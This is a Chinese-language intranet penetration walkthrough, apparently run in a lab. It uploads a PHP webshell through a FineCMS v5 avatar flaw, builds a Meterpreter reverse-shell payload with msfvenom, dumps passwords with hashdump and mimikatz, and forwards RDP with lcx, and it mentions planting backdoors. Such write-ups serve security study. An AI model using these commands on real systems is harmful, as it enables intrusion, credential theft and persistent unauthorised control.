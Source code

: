 **内网渗透思路**

> **本次内网渗透的思路为**：通过信息收集对网站进行分析，通过攻击外网服务器，从而获取外网服务器的权限，然后利用入侵成功的外网服务器作为跳板来攻击内网其他服务器，最后获得敏感数据（系统密码等），看情况安装后门木马或者后门软件，实现长期控制和获得敏感数据的方式。  
> **还有一种内网渗透的思路为**：通过社工等方法攻击企业办公网的电脑、办公网无线等，实现控制办公电脑，再用获得的办公网数据。

**渗透过程详解**  
本次渗透过程将分为webshell---&gt;getshell---&gt;提权  
webshell访问某网站，该网站利用的是FineCMS v5系统建站，创建一个新的用户进行测试。[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a613f2096cc5c8cd00d380115e7cea67b049e2ca.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a613f2096cc5c8cd00d380115e7cea67b049e2ca.png)  
初步判断该网页模板为finecms v5建站系统，然后注册一个新的用户，方便我们利用finecms v5系统的文件上传漏洞  
参考链接：<https://blog.csdn.net/dfdhxb995397/article/details/101384946>  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0258cf08f2802f48c704c1dc376ad0939d74072c.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0258cf08f2802f48c704c1dc376ad0939d74072c.png)  
文件上传漏洞在会员头像处，所以先注册一个账号然后登录后上传我们的一句话木马  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b84369ba691f4a4318d1d720d3b6ef9249700ced.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b84369ba691f4a4318d1d720d3b6ef9249700ced.png)  
最开始的文件格式是0x0.png  
通过burp代理拦截将tx后面的image/png换成image/php即可  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-df207e17b145f1e344c86000d6f344d4723584ca.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-df207e17b145f1e344c86000d6f344d4723584ca.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-db0ad3572bc5e6db215522e6082d27e79fba49ab.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-db0ad3572bc5e6db215522e6082d27e79fba49ab.png)  
输入参数v=phpinfo();验证成功[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a38fa7ee217c27d1e69ce1b753c4d31ac7a03d89.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a38fa7ee217c27d1e69ce1b753c4d31ac7a03d89.png)  
验证上传成功后，打开菜刀软件输入上传的网站路径和参数（一句话木马的密码），可以连接服务器  
在菜刀软件上可以进行数据库的提权，如mof提权、udf提权、启动项提权等  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b5d122756d9fd3b81be79b3c4006018e6b5b0826.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b5d122756d9fd3b81be79b3c4006018e6b5b0826.png)  
编写免杀木马  
通过webshell连接目标服务器，但是访问的数据有限，仅仅是站点的系统账户权限，访问的系统路径也有限，于是我们可以编写免杀木马来进行反弹shell木马su.exe

```shell
Msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.10.130 lport=4444 -f exe >/root/Desktop/su.exe
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-99d12641b1e3faeeb3af5505cf52fcdacff61f9f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-99d12641b1e3faeeb3af5505cf52fcdacff61f9f.png)  
利用刚刚连接菜刀的操作，在文件管理中上传我们需要的工具[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-20d3422f836b159722d4f912b4d857f2555422ab.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-20d3422f836b159722d4f912b4d857f2555422ab.png)  
进入meterpreter攻击模块，配置参数

```shell
use exploit/multi/handler
Set payload/windows/x64/meterpreter/reverse_tcp
Set lport 4444
Set lhost 192.168.10.130
run
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4154bc4da64a9c634b0e65b9700094fc02a33fc9.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4154bc4da64a9c634b0e65b9700094fc02a33fc9.png)  
可以利用菜刀的虚拟终端模拟win2008服务器点击免杀木马的操作，让木马生效  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d5c15d97314073b8d500c4dbfecf17f2ef17b2ee.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d5c15d97314073b8d500c4dbfecf17f2ef17b2ee.png)  
run执行监听  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1d7d75a232238bb3e1ff9faedfbf3c1923f1eb18.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1d7d75a232238bb3e1ff9faedfbf3c1923f1eb18.png)  
**获取密码过程**

```shell
hashdump
load mimikatz
kerberos
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-eeaf60f4effd18288305bbc26cfbd01dd31f9518.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-eeaf60f4effd18288305bbc26cfbd01dd31f9518.png)  
**注：如果win2008的远程桌面操作是不允许连接到这台计算机，那么开启端口转发也是没用的**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5bbc92dbdca7c0c61ad68bd9fe748ce353a027c4.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-5bbc92dbdca7c0c61ad68bd9fe748ce353a027c4.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-296c3396d7ea43beb15b74f4dcce30cd571089d1.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-296c3396d7ea43beb15b74f4dcce30cd571089d1.png)  
开启远程桌面  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-bf5d589376d114895fbbf1930256138285e42f9c.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-bf5d589376d114895fbbf1930256138285e42f9c.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0c86a2fd807a3c56f9cc63120024bb38d136b307.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0c86a2fd807a3c56f9cc63120024bb38d136b307.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-39ec8e911ccaa1ce6d603cc2492b19f5d5c8e0c0.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-39ec8e911ccaa1ce6d603cc2492b19f5d5c8e0c0.png)  
**思路一：利用meterpreter模块执行远程连接**  
然后开启端口转发，-l（本地端口）-p（远程控制端口）-r（目标主机）  
靶机3389端口转发发送到本地的5555端口  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-781d53f67e9bf82520c2958584d9aa6f4e875a50.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-781d53f67e9bf82520c2958584d9aa6f4e875a50.png)  
Rdesktop -u 用户名 -p 密码 127.0.0.1：5555 连接本地的5555端口开启远程桌面  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-07645c88d8022891de8e1b8926b9616fbf35d138.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-07645c88d8022891de8e1b8926b9616fbf35d138.png)  
利用windows开启远程桌面，需要利用lcx工具，现在shell模式下输入指令  
靶机执行lcx.exe -slave 192.168.10.20 5555 192.168.10.10 3389  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-946ccadbcd7b53662c56c81db26627effc7f9aed.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-946ccadbcd7b53662c56c81db26627effc7f9aed.png)  
**思路二：利用lcx工具执行远程连接**  
攻击机执行lcx.exe. -listen 5555 33891，接着打开mstsc连接127.0.0.1 ：33891[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c53709862f91280cbdbe60bf68068efb6aeb5b05.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c53709862f91280cbdbe60bf68068efb6aeb5b05.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a475f8e0b8f6a5eee194da7c8ed603d8e0b81a64.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a475f8e0b8f6a5eee194da7c8ed603d8e0b81a64.png)  
以下为连接成功和监听数据的发送[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9f4eec0fb9486c1c1f9ec8bc3c8e1a17880d49db.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9f4eec0fb9486c1c1f9ec8bc3c8e1a17880d49db.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4ddf5ddb4993444fbaaeb698ec9d8cac71d08408.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4ddf5ddb4993444fbaaeb698ec9d8cac71d08408.png)  
**总结**  
不同的操作系统可能存在版本漏洞、中间件漏洞、组件漏洞、端口服务漏洞等，在渗透测试的过程中可以通过信息收集来获取思路。